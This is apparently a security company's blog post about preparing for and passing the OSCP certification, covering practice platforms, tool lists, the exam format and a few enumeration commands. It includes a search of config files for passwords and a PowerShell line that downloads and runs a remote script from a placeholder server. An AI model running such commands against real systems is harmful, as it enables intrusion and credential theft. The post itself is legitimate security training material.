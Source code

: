 ```yaml
---
slug: oscp-journey/
title: How to Pass the OSCP
date: 2019-12-04
category: opinions
subtitle: The meaning of Try Harder
tags: pentesting, hacking, cybersecurity, training, exploit
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/cover_dcbd71.webp
alt: Photo by Clint Patterson on Unsplash
description: The OSCP exam is one of the hardest certifications out there for pentesters. Here we show you how you can prepare yourself to do your best on it.
keywords: OSCP, Business, Information, Security, Protection, Hacking, Best Practices, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, OSCP - Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/dYEuFB8KQJk
---
```


Before taking the exam,
I already had years of work experience as a penetration tester
at Fluid Attacks.
So,
I already knew how to perform a [penetration test](../../solutions/penetration-testing/)
and how to build a technical report of my findings.
However,
if you don't have any work experience on the field
or you're just starting out,
this post may help you pass your exam.

The most important phase on a penetration test is scanning. Here you
will use tools to get information about your target, such as its
operating system, open ports, the services running on those ports and
their versions, whether they have public vulnerabilities or not, and
whether there is a public exploit for those vulnerabilities. Since
metasploit is restricted to only **one** machine (this includes the
auxiliary modules too) you need to be familiar with tools such as
the following:

- [Nmap](https://nmap.org/)

- [Dirbuster](https://tools.kali.org/web-applications/dirbuster)

- [Nikto](https://tools.kali.org/information-gathering/nikto)

- [Gobuster](https://tools.kali.org/web-applications/gobuster)

- [Dirsearch](https://github.com/maurosoria/dirsearch)

- [enum4linux](https://tools.kali.org/information-gathering/enum4linux)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

The only way to do this is by using them continuously until you develop
a solid enumeration strategy. To help you with this there are services like
[hackthebox](https://www.hackthebox.eu/) and
[vulnhub](https://www.vulnhub.com/), where you can find vulnerable
machines on which to test your skills.

<div class="imgblock">

![owned-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/hackthebox_efxh5c.webp)

</div>

Once there you can also practice the *gaining access* phase and your
privilege escalation strategies with multiple operating systems and
vulnerabilities that resemble the ones in real-life scenarios. You would
be surprised by how many times I've encountered a vulnerability on
hackthebox first and then on a real-life service. The tools and
resources that I got the most from for privilege escalation were
these:

- [linenum](https://github.com/rebootuser/LinEnum)

- [windows exploit
  suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

- [JAWS](https://github.com/411Hall/JAWS)

- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

- [g0tmilk Linux privesc
  blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [absolomb Windows privesc
  blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

I recommend hacking all the live machines that you can without any help
and getting some points on the platform. Doing this helps you get used to
the tools and increases your confidence in using them when you take the
exam. If you can't hack a machine and it gets removed, you can check the
walkthrough by
[Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and
learn new things. You can learn stuff from these videos even for
machines you did root. Do this for at least one month or, if you have no
work experience whatsoever, two months.

## Attacking the lab

I had a month of lab access, so the approach I took to the course and
the lab was to split them by days. One day concentrating on the guide and
taking notes of things that I didn't know, and another day for attacking
the lab machines.

When you are working on the machines, also work on your time management
skills. Do not spend too much time on one machine when you can try
another one. Time management becomes very important when you are taking
your exam.

Before your lab access ends, be sure that you fully understand how to do
a **buffer overflow**. Take notes of every step, copy all the commands
that you need, and also how to get the **return address**.

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/penetration-testing/"
title="Get started with Fluid Attacks' Penetration Testing solution right now"
/>
</div>

## Post lab

Here you want to gather the most information about the last two steps.
We are going back to hackthebox but instead of doing the active
machines we are going to do the ones from [this
list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0)
(there are also some from vulnhub).

<div class="imgblock">

![oscp-like-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330963/blog/oscp-journey/url-oscp_lgqddx.webp)

</div>

Try to conquer those machines without the aid of walkthroughs.
When you finish one, look at these walkthroughs to check whether there
is another way in; if so, then also practice it.

The day before the exam, I did nothing. Your body and mind need to rest
and you should not try to cram for the test. Eat your favourite foods
whatever they may be. Treat yourself to a well-deserved dessert and watch
movies and series that you perhaps ignored when you focused on your
studies. The point is to de-stress so you're fresh when you take the
exam.

## The exam

The task is to gain administrative access to the machines in the
network. There are five machines, each is worth a certain number of points
if you complete it, and you need at least **70** points to pass the exam.
The machine points are distributed as follows:

- 25 points buffer overflow

- 25 points machine

- Two 20 points machines

- 10 points machine

I started with the 25 points BoF machine while I scanned all the other
ones. I did this because I knew that I could follow the guide
step-by-step and get the BoF points. My scanning strategy was to run
`nmap` with these options:

**nmap with options.**

``` bash
nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
```

Also, I pinged the machine in order to view its operative system. If the
TTL (Time to Live) is 64 then it is a Linux machine, and if it is
128 then it's a Windows machine. When the port scan finished I
checked every web service and used a web crawler like `dirbuster` or
`dirsearch`.

After finishing the BoF machine, I started hacking the machines with
all the information that I had collected. I ended up going down rabbit
holes trying to gain admin privileges on the 25-pointer machine. Because
of the time the 25-point machine was taking, I quickly decided to switch
to both the 20-point and finally, the 10-pointer machine.

For privilege escalation I first checked the operative system version
and kernel, this can be done by running:

``` bash
uname -a #linux
> systeminfo #windows
```

If it was Linux I checked for `sudo` rights running processes, and for
`SUID` executables. There is a tool named linenum but it's too verbose
and I like to search for things manually.

``` bash
sudo -l
ps -aux
find / -perm -u=s -type f 2>/dev/null
```

If it was Windows, I checked for the `Groups.xml` file (usually it has
administrative user and password information there), installed software
and tried to use `powershell` to run Windows exploits. When it comes
to Windows, most of the time, the way of escalating privileges is
through a vulnerability in the OS version or in an installed program
version.

``` bash
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

I finished my test in less than 10 hours with 4 admins and 1 user for a
little more than **75** total points. The mistake that I made was to be
lazy with my screenshots, so I needed to redo all the machines to get
all of my evidences. **Do not do this\!** The next day I did my
technical documentation. The advice here is to put everything that you
did from the *scanning* phase up to the *privilege escalation* phase.
Also, if you modified an exploit (even if is only one line), add it to
the report and mark what you modified.

<div class="imgblock">

![oscp-win](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/oscp-win_llivv3.webp)

</div>

## Be prepared and do your best

The OSCP is a difficult certification, but it's not impossible. The
steps before the lab are going to help you get the most out of the
course and to establish your own routine when it comes to doing a
penetration test. The enumeration and scanning phases are the most
important ones in the whole process because you can spend hours going
down rabbit holes if you do not do these steps properly. Mental
toughness is needed to pass this test, so be prepared to think quickly
and creatively, daisy-chaining vulnerabilities, and rest when you need
it. The discord groups of hackthebox and OFFSEC are at your disposal to
answer your questions or give you hints where you need them. Try harder.
